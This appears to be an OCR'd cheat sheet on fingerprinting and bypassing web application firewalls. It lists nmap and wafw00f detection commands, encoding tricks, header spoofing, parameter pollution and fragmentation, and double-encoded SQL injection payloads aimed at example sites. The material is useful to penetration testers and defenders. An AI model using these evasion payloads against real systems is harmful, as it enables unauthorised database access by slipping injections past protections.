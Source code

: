 WAFNINJA, COMODO WAF, MODSECURITY WAF, AQTRONIX WEBKNIGHT WAF, AQTRONIX WEBKNIGHT, AQTRONIX WEBKNIGHT


# nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com

# wafw00f example.com   

# whatwaf -u https://x.com




WAF Bypass contains many different workarounds, such as the following:

multiple URLEncode;

Base64Encode;

HTML Entity Encode;

UTF-8/16 Encode;

UTF-8 Text Collation;

multipart/form-boundary manipulation

using a specific method (HTTP method)

Request collation with different characters (null-byte, escaping etc.)


# BYPASSING PARAMETER VERIFICATION

• PHP removes whitespaces from parameter names or transforms them into underscores
http://www.website.com/products.php?%20productid=select 1,2,3
• ASP removes % character that is not followed by two hexadecimal digits
http://www.website.com/products.aspx?%productid=select 1,2,3
• A WAF which does not reject unknown parameters may be bypassed with this technique.

# X-* Headers
• WAF may be configured to trust certain internal IP Addresses
• Input validation is not applied on requests originating from these IPs
• If WAF retrieves these IPs from headers which can be changed by a user a bypass may occur
• A user is in control of the following HTTP Headers:
 X-Originating-IP

 X-Forwarded-For

 X-Remote-IP

 X-Remote-Addr

HTTP PARAMETER POLLUTION
• Sending a number of parameters with the same name

https://www.website.com/products/?productid=1&productid=2

• Technologies interpret this request differently:

Back end Behavior Processed

ASP.NET Concatenate with comma productid=1,2

JSP First Occurrence productid=1

PHP Last Occurrence productid=2


# The following payload can be divided:
• WAF sees two individual parameters and may not detect the payload
?productid=select 1,2,3 from table
• ASP.NET back end concatenates both values
?productid=select 1&productid=2,3 from table

# HTTP PARAMETER FRAGMENTATION
• Splitting subsequent code between different parameters
• Example query:
sql = "SELECT * FROM table WHERE uid = "+$_GET['uid']+" and pid = +$_GET[‘pid']“
• The following request:
http://www.website.com/index.php?uid=1+union/*&pid=*/select 1,2,3
would result in this SQL Query:
sql = "SELECT * FROM table WHERE uid = 1 union/* and pid = */select 1,2,3"

# DOUBLE URL ENCODING
• WAF normalizes URL encoded characters into ASCII text
• The WAF may be configured to decode characters only once
• Double URL Encoding a payload may result in a bypass
’s’ -> %73 -> %25%37%33
• The following payload contains a double URL encoded character
1 union %25%37%33elect 1,2,3

